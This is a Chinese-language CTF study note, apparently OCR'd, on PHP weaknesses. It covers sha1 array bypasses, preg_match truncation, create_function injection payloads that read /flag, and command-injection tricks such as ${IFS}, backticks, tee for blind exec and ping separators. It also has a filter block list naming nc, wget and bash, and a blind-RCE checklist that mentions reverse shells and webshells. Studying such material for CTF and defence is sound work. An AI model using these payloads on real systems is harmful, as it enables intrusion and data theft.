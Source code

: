 



## 1、PHP

### 0、php特性了解

-   **php在解析字符串时会把点和空格解析成 _** 





### 1、php方法特性以及绕过方式

#### sha1()

-   **计算字符串的 sha1 散列值**

```php
if (sha1('apple') === 'd0be2dc421be4fcd0172e5afceea3970e2f3d940') {}
    
例子：if (sha1($shana) === sha1($passwd) && $shana != $passwd ){}
    # 绕过例子：$shana[]=1&$passwd[]=2
    # 绕过原理：sha1()函数无法处理数组，$shana和$passwd都是数组时，都是false	
```

#### preg_match()

-   **执行匹配正则表达式,**

```nginx
绕过原理：1、它会努力去匹配第一行，可以利用多行的方法【%0A】截断，也可以使用【%00】截断
			但受限以下两种情况下可以使用【%00】截断
			magic_quotes_gpc=off
 			php<5.3.4
	
		2、可以利用空字符串绕过正则
		3、也可以利用回溯绕过
案例：
	preg_match('/^dsf$/') 可以加上换行符%0a截断绕过(ds%0af)，因为这个正则是需要固定出现
```

#### basename()

-   **返回路径中的文件名部分**

```

```

#### create_function

```php
create_function()： 通过执行代码字符串创建动态函数
    如果【_】被过滤可以使用：命名空间【\】绕过，只需要再函数名
	获取flag的方式使用：get_defined_vars()，获取到上下文所有的参数值
	代码注入时选择得注释符号可以是#，也可以是\\，但是#需要编码，即%23
正常使用案例：
<?php
    $new = create_function('$a,$b','return $a * $b;');
    echo $new(1,2);
?>
    // 等价以下
    <?php
        function lambda1('$a,$b'){
    		return $a * $b;	
		}
	?>

实际案例：
    $a = $_GET['a'];
    $b = $_GET['b'];
	# 第一个字符不能是字母
    if(preg_match('/^[a-z0-9_]*$/isD',$a)){
        show_source(__FILE__);
    }
    else{
        $a('',$b);		// 从这里构成create_function
    }
创建绕过方式案例：
    #  	var_dump()：打印变量的相关信息，可执行函数
    # 	scandir()：列出指定路径中的文件和目录
	a=\create_function&b=return 'mmkjhhsd';}var_dump(scandir('/'));/*
	发现根目录下有一个flag文件
	a=\create_function&b=return 'mmkjhhsd';}var_dump(file_get_contents('/flag'));/*

```



### 2、命令执行

>   前提条件：**默认php.ini配置文件中是不禁止你调用执行外部命令的函数的，需要通过disable_functions修改**

>   php 4种**执行系统外部命令函数**：exec()、passthru()、system()、 shell_exec()

>   passthru与system的区别，passthru直**接将结果输出到浏览器，**
>
>   **不需要使用 echo 或 return 来查看结果，不返回任何值**，且其可以输出二进制，比如图像数据

>   system和exec的区别在于system在执行系统外部命令时，**直接将结果输出到浏览器**，
>
>   **不需要使用 echo 或 return 来查看结果**，如果执行命令成功则返回true，否则返回false。
>
>   第二个参数与exec第三个参数含义一样

### 0、一些绕过

-   绕过`shell_exec()`函数的特性

-   shell_exec() 函数实际上仅是反撇号 【`】 操作符的变体

-   ```nginx
    //命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。
    $resultData = shell_exec($command);
    ```

-   用于尝试代表题目：[GXYCTF 2019]Ping Ping Ping

    -   linux下

        -   ```bash
            # 空格过滤
            ${IFS}	代替空格
            $IFS$9	代替空格
            $IFS$1	代替空格
            常见的绕过符号有：
            $IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、
            
            # $IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，加一个{}就固定了变量名，
            # $IFS$9后面之所以加个$是为了起到截断的作用
            ```

        -   内联执行

            -   ```nginx
                在linux系统中，反引号是作为内联执行，输出查询结果的内容。
                比如:
                	用ls查询出index.php。那么`ls`就代表了index.php这个文件,如果存在多个文件那么就代表这多个文件，使用cat命令去读，会读所有的文件
                ls
                cat `ls`
                ```

        -   base64编码绕过

        -   设置变量名

        -   单双引号绕过

-   `exec()`函数特性（一般考察无回显 RCE）

-   **exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行**

    -   ```nginx
        # 不直接输入结果内容，命令执行结果的最后一行内容，
        # 第二个参数可获取到所有返回结果，每行结果作为一个数组记录，
        # 第三个参数返回命令执行的状态码，0代表成功1失败
        $resultData =exec($command,$output,$returnVal);
        	一般执行是没有回显的，但是可以搭配tee命令使用
        tee命令：
        	是将想要执行的命令写入到一个文件中，然后再去访问这个文件就会执行写入的命令
        	如输入命令：ls /|tee 1.txt
        	然后再通过：http://url/1.txt 就会返回执行ls / 的结果
        ```

    -   ```nginx
        利用绕过：
        如存在以下过滤：
        if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
            {}
        通过过滤会执行：exec($url);
        	绕过方法：
        		没有过滤掉 \ ,所有可以通过添加\突破限制
        		由于没有回显所有可以考虑配合linux中的tee命令将命令写入文件在访问获取
        ```

        

#### 1、ping命令相关的命令执行

**正常情况有五种写法**

```bash
127.0.0.1&&+code	# 左边命令的值为真执行左边，否则执行右边
127.0.0.1&+code		# &表示将任务置于后台执行
127.0.0.1||+code	# 左边的命令返回假才执行右边的
127.0.0.1|+code		# |表管道，上一条命令的输出，作为下一条命令的参数
127.0.0.1;+code		# 多行语句用换行区分代码块，单行语句用分号区分
	# 代表题目：[GXYCTF 2019]Ping Ping Ping
```

#### 2、无回显RCE

**做题思路**：

1.   利用dnslog带外
2.   写马
3.   反弹shell
4.   写文件然后访问文件